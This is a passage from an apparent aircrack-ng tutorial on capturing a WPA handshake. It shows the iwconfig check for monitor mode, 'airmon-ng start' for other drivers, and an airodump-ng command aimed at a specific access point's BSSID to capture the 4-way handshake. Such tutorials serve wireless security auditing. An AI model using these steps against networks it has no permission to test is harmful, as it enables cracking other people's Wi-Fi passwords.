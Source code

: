 To confirm successful setup, run “iwconfig”. The following output should appear:

 lo        no wireless extensions.
 eth0      no wireless extensions.
 
 wmaster0  no wireless extensions.
 
 wlan0     IEEE 802.11bg  ESSID:""
           Mode:Managed  Frequency:2.452 GHz  Access Point: Not-Associated
           Tx-Power=0 dBm
           Retry min limit:7   RTS thr:off   Fragment thr=2352 B
           Encryption key:off
           Power Management:off
           Link Quality:0  Signal level:0  Noise level:0
           Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
           Tx excessive retries:0  Invalid misc:0   Missed beacon:0
 
 mon0      IEEE 802.11bg  Mode:Monitor  Frequency:2.452 GHz  Tx-Power=0 dBm
           Retry min limit:7   RTS thr:off   Fragment thr=2352 B
           Encryption key:off
           Power Management:off
           Link Quality:0  Signal level:0  Noise level:0
           Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
           Tx excessive retries:0  Invalid misc:0   Missed beacon:0
Here, mon0 is seen as being in monitor mode, on channel 9 (2.452GHz). Unlike madwifi-ng, the monitor interface has no Access Point field at all. Also notice that wlan0 is still present, and in managed mode - this is normal. Because both interfaces share a common radio, they must always be tuned to the same channel - changing the channel on one interface also changes channel on the other one.

Step 1c - Setting up other drivers
For other (ieee80211-based) drivers, simply run the following command to enable monitor mode (replace rausb0 with your interface name):

 airmon-ng start rausb0 9
The system responds:

 Interface       Chipset         Driver
 
 rausb0          Ralink          rt73 (monitor mode enabled)
At this point, the interface should be ready to use.

Step 2 - Start airodump-ng to collect authentication handshake
The purpose of this step is to run airodump-ng to capture the 4-way authentication handshake for the AP we are interested in.

Enter:

 airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk ath0
Where:

-c 9 is the channel for the wireless network
--bssid 00:14:6C:7E:40:80 is the access point MAC address. This eliminates extraneous traffic.
-w psk is the file name prefix for the file which will contain the IVs.
ath0 is the interface name.
Important: Do NOT use the “--ivs” option. You must capture the full packets.

Here what it looks like if a wireless client is connected to the network:
